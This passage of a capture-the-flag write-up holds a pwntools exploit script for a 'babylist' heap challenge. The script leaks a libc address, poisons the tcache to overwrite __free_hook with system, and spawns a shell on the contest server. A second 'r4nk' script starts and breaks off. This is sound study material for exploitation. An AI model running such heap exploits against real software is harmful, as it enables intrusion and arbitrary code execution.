 ```python
def free(idx):
	cmd(5)
	p.sendlineafter("list:\n",str(idx))
def cal(n):
	if n>0:
		return n
	if n<0:
		return 0x100000000+n
def recal(p1):
	if p1 >= 0x80000000:
		p1=p1-0x100000000
	return p1
#context.log_level='debug'
libc=ELF("./libc-2.27.so")
#p=process('./babylist')
p=remote("challenges.fbctf.com",1343)
add("Origin")
for x in range(0x40):
	num(0,1)
for x in range(8):
	cp(0,str(x))
for x in range(0,8):
	num(x,1)
show(8,0)
p.readuntil("= ")
p1=cal(int(p.readline()[:-1],10))
show(8,1)
p.readuntil("= ")
p2=cal(int(p.readline()[:-1],10))
p2=p2<<32
base=p2+p1-(0x7ffff782eca0-0x7ffff7443000)
log.warning(hex(base))
libc.address=base
for x in range(0,8):
	free(x)
add("0")#0
sh=0x68732f6e69622f
num(0,(sh&0xffffffff))
num(0,(sh>>32))
for x in range(0x20-2):
	num(0,"1")
cp(0,"1")#1
cp(0,"2")#2
cp(0,"3")#3
num(0,"1")
num(1,"1")
add(p64(libc.sym['__free_hook']))
add("/bin/sh")
add(p64(libc.sym['system']))
num(3,0)
p.interactive()
```
# r4nk
The binary is simple and the vulnerability is obviously.
we can leak and set our rop chain(becouse of cdqe we can't use libc_address directly).
```python
from pwn import *
def cmd(n):
	p.sendlineafter("> ",str(n))
def show():
	cmd(1)
def rank(idx,r):
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team